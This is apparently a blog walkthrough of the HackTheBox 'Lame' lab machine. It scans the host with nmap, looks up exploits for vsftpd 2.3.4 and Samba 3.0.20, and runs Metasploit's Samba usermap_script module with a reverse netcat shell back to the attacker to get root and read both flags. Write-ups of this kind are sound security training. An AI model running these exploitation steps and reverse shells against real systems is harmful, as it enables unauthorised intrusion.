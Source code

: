```yaml
---
title: HackTheBox - Lame Walkthrough
publishDate: 2023-05-28
author: Abhinav Kumar
image:   '~/assets/images/HTB_Lame.png'
excerpt: HackTheBox Lame machine is a Linux machine , easy for starters.
draft: false
category: HackTheBox
---
```


# Lame

HackTheBox Link to Lame Machine - [HTB Lame](https://app.hackthebox.com/machines/lame)


Initial Nmap Scan for the machine/endpoint

The default scan gives no results , using -Pn switch gives FTP, SSH, NetBIOS, and SMB ports, scanning for all ports adds one more open port - 3632 . So we scan all these ports for Service versions.

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nmap lame.htb              
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.04 seconds
                                                                                                                                                                                                                                              
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nmap -Pn -p- -T5 lame.htb  
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.050s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3632/tcp open  distccd

Nmap done: 1 IP address (1 host up) scanned in 72.35 seconds
                                                                                                                                                                                                                                              
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nmap -sC -sV -Pn -p 21,22,139,445,3632 -T5 lame.ht
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.049s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-05-27T18:44:56-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h00m42s, deviation: 2h49m43s, median: 41s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.88 seconds
```


Searching Exploits 
vsftpd anonymous Login to FTP did not give any results, hence looking at SMB.

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ searchsploit vsftpd 2.3.4
----------- ---------------------------------
 Exploit Title |  Path
----------- ---------------------------------
vsftpd 2.3 | unix/remote/17491.rb
vsftpd 2.3 | unix/remote/49757.py
----------- ---------------------------------
Shellcodes: No Results
                                             
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ searchsploit samba 3.0.20 
----------- ---------------------------------
 Exploit Title |  Path
----------- ---------------------------------
Samba 3.0. | multiple/remote/10095.txt
Samba 3.0. | unix/remote/16320.rb
Samba < 3. | linux/remote/7701.txt
Samba < 3. | linux_x86/dos/36741.py
----------- ---------------------------------
Shellcodes: No Results


```

Searching Exploits in Metasploit and setting the options .

```bash
                                                                                           
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ sudo msfdb start                                
[sudo] password for abhinav: 
[+] Starting database
                                                                                            
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ msfconsole 
                                                  
                                              `:oDFo:`                            
                                           ./ymM0dayMmy/.                          
                                        -+dHJ5aGFyZGVyIQ==+-                    
                                    `:sm⏣~~Destroy.No.Data~~s:`                
                                 -+h2~~Maintain.No.Persistence~~h+-              
                             `:odNo2~~Above.All.Else.Do.No.Harm~~Ndo:`          
                          ./etc/shadow.0days-Data'%20OR%201=1--.No.0MN8'/.      
                       -++SecKCoin++e.AMd`       `.-://///+hbove.913.ElsMNh+-    
                      -~/.ssh/id_rsa.Des-                  `htN01UserWroteMe!-  
                      :dopeAW.No<nano>o                     :is:TЯiKC.sudo-.A:  
                      :we're.all.alike'`                     The.PFYroy.No.D7:  
                      :PLACEDRINKHERE!:                      yxp_cmdshell.Ab0:    
                      :msf>exploit -j.                       :Ns.BOB&ALICEes7:    
                      :---srwxrwx:-.`                        `MS146.52.No.Per:    
                      :<script>.Ac816/                        sENbove3101.404:    
                      :NT_AUTHORITY.Do                        `T:/shSYSTEM-.N:    
                      :09.14.2011.raid                       /STFU|wall.No.Pr:    
                      :hevnsntSurb025N.                      dNVRGOING2GIVUUP:    
                      :#OUTHOUSE-  -s:                       /corykennedyData:    
                      :$nmap -oS                              SSo.6178306Ence:    
                      :Awsm.da:                            /shMTl#beats3o.No.:    
                      :Ring0:                             `dDestRoyREXKC3ta/M:    
                      :23d:                               sSETEC.ASTRONOMYist:    
                       /-                        /yo-    .ence.N:(){ :|: & };:    
                                                 `:Shall.We.Play.A.Game?tron/    
                                                 ```-ooy.if1ghtf0r+ehUser5`    
                                               ..th3.H1V3.U2VjRFNN.jMh+.`          
                                              `MjM~~WE.ARE.se~~MMjMs              
                                               +~KANSAS.CITY's~-`                  
                                                J~HAKCERS~./.`                    
                                                .esc:wq!:`                        
                                                 +++ATH`                            
                                                  `


       =[ metasploit v6.3.16-dev                          ]
+ -- --=[ 2315 exploits - 1208 auxiliary - 412 post       ]
+ -- --=[ 975 payloads - 46 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Adapter names can be used for IP params 
set LHOST eth0
Metasploit Documentation: https://docs.metasploit.com/

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > search samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:p
                                       ort][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com
                                       /docs/using-metasploit/basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.211.55.11     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > set rhost lame.htb
rhost => lame.htb
msf6 exploit(multi/samba/usermap_script) > set lhost tun0
lhost => 10.10.14.10
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Command shell session 1 opened (10.10.14.10:4444 -> 10.10.10.3:45549) at 2023-05-28 22:32:45 +0530


```

Checking the user on Shell session we notice we are now root, so we can read through all the flags , user flag present in makis user directory and root at usual location

```bash

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Command shell session 1 opened (10.10.14.10:4444 -> 10.10.10.3:45549) at 2023-05-28 22:32:45 +0530

whoami
root
pwd
/


cd home
ls
ftp
makis
service
user
cd user
ls
cd ..
cd makis
ls
user.txt
cat user.txt
030cbd25cfc0f796f630983ded15fc38
cat /root/root.txt
db586d142eae0e9f16ff5a4deb4bb0c2


```

